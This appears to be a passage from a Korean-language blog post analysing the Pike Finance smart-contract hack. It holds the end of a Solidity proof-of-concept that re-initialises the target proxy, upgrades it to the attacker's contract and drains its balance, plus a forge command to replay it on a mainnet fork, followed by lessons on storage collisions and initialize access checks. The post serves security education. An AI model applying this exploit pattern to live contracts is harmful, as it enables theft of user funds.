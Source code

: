 ```sol
        address dexHelper = address(this);
        address token = address(this);

        IPikeFinance(TARGET_CONTRACT).initialize(attacker, wNative, dexHelper, token, 20, 20);

        IPikeFinance(TARGET_CONTRACT).upgradeToAndCall(address(this), abi.encodeWithSignature("drainFunds(address)", address(this)));
    }

    function drainFunds(address recipient) external {
        payable(recipient).call{value: address(this).balance}("");
    }

    function proxiableUUID() external pure returns (bytes32) {
        return 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;
    }

    receive() external payable {}
}
```

아래 명령어로 테스트를 실행할 수 있습니다.  
```
forge test --fork-url https://eth.llamarpc.com --fork-block-number 19771058 --match-test testExploit -vvvv
```

<<<<<<< HEAD:_posts/2025-03-23-PikeFinance_Exploit.md
![exploit](./assets/img/pikeFinance/image.png)

---

## 마무리
이번 피해는 storage collision과 initialize 함수의 허술한 설계가 결합되며 발생한 사고였습니다.<br>
이 사례를 통해 얻을 수 있는 교훈은 두 가지입니다.<br>
<br>
첫째, 프록시 패턴을 사용할 경우 업그레이드 전후의 storage layout 충돌 여부를 반드시 확인해야 한다는 점입니다.<br>
슬롯 위치 하나의 변화만으로도 기존 변수의 값이 왜곡되거나, 중요한 제어 흐름이 공격자에게 노출될 수 있기 때문입니다.<br>
이는 스마트 컨트랙트 업그레이드에서 가장 흔하게 발생하는 실수 중 하나이며, 충분한 사전 검토 없이는 치명적인 결과를 초래할 수 있습니다.<br>
<br>
둘째, initialize 함수의 권한 검증 로직은 더욱 엄격하게 설계될 필요가 있습니다.<br>
예를 들어 _isActive에 단순히 msg.sender를 저장하는 방식 대신, 사전에 정의된 화이트리스트 기반의 주소만 초기화할 수 있도록 제한하는 구조가 보안상 더 안전합니다.<br>
<br>
결국 이 사고는 코드 한 줄의 실수가 수십억 원의 피해로 이어질 수 있다는 사실을 명확히 보여주는 사례입니다.<br>